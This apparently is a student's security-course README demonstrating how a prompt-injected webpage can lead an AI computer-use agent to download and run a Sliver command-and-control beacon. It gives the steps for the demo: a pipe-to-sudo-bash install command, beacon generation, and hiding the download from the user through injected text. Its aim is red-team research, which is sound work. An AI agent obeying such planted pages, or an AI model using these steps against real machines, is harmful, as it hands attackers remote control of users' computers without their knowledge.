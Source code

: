 # Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

![screenshot](Sliver_start.png)

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the Sliver documentation for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")

![screenshot](Captured_computer.png)


# Presenatation:
### My contribution to the group project:
- Set up the git and project enviroment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command and Control attack vector.

### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
### How it applies to Computer Systems Security:
### Application areas: 

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.
2. 

# Submission:

Full commented code and the code is clean, formatted.

The README file in the GitHub repository indicates clearly how to easily clone and build/deploy the code. The README file in the GitHub repository clearly indicates what functionality does (and does not, if applicable) work in the final version of the application. Additionally, it should include references to two scholarly papers: one representing prior research, serving as the foundational bedrock for the current study, and another representing contemporary work that acknowledges and builds upon the findings of the current paper. This practice is akin to the methodology of an archeologist, meticulously documenting the lineage of ideas and advancements within the academic landscape.

Any data required to test/demo the application has been provided within the project. Instructors can run the code and reproduce the results shown in the class.